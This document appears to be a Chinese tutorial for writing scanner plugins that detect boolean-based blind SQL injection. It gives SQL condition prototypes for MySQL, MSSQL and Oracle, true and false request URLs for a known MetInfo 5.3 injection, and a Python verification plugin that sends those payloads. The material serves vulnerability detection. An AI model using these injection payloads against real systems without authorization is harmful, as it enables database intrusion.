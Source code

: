 # 布尔盲注类插件
---

这一类的注入在返回页面中没有回显，但可以根据返回页面的结果判断构造的SQL条件语句的真假性。
 
### MySQL 数据库
	
**方法**：构造布尔表达式来影响返回结果集。

其 SQL 语句原型类似：

```
select * from table where 1=1;
select * from table where 1=2;
select * from table where 1>2;
select IF(1=1, 1, 2);
select IF(1=2, 1, 2);
select IF('a'='a', 1, 2);
```

#### 实例

[MetInfo 5.3 /include/global/listmod.php SQL 注入漏洞](http://www.wooyun.org/bugs/wooyun-2015-0119166):

**请求的目标 URL**：

```
# 表达式值为真，返回有数据的页面
http://127.0.0.1/MetInfo/news/news.php?lang=cn&class2=5&serch_sql=123qwe where 4343=4343 -- x&imgproduct=xxxx

# 表达式为假，返回无数据的页面
http://127.0.0.1/MetInfo/news/news.php?lang=cn&class2=5&serch_sql=123qwe where 4343=4342 -- x&imgproduct=xxxx
```

**漏洞验证(伪代码)**：

md5(233) 的值为 e165421110ba03099a1c0393373c5b43

```
if 表达式为真的请求返回内容:
        security_hole(target, log=log)
```

**范例插件**：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# author: Medici.Yan

import re


def assign(service, arg):
    if service == fingerprint.metinfo:
        return True, arg


def audit(arg):
	# 开发者可调用自定义函数
    verify(arg)


def verify(url):
    payloadtrue = "{target}/news/index.php?"\
        "serch_sql=%20123qwe%20"\
        "where%201234%3D1234%20--%20x&imgproduct=xxxx".format(target=url)

    payloadfalse = "{target}/news/index.php?"\
        "serch_sql=%20123qwe%20"\
        "where%201234%3D1235%20--%20x&imgproduct=xxxx".format(target=url)
    try:
        code1, head1, body1, redirect_url1, log1 = hackhttp.http(payloadtrue)
		# shownews.php?lang= 就是两次请求结果中不同的地方
        if code1 != 200 or not\
                re.search('href=["\' ]shownews\.php\?lang=', body1, re.M):
            return

        code2, head2, body2, redirect_url2, log2 = hackhttp.http(payloadfalse)
        if code2 != 200 or\
                re.search('href=["\' ]shownews\.php\?lang=', body2, re.M):
            return
        security_hole("%s" % (payloadtrue), log=log1)
    except:
        pass

if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.metinfo, 'http://127.0.0.1/MetInfo/')[1])

```

### MSSQL 数据库

**方法**：构造布尔表达式

其 SQL 语句原型类似：

```
select * from xxxx where id=xxx and 1=1;
select * from xxxx where id=xxx and 1=2;
IF(1=1) SELECT 123 ELSE DROP FUNCTION xxxx;
```

### Oracle 数据库

**方法**：构造布尔表达式

SQL 语句原型类似：

```
(SELECT (CASE WHEN (1=1) THEN 123 ELSE CAST(1 AS INT)/(SELECT 0 FROM DUAL) END) FROM DUAL)
```

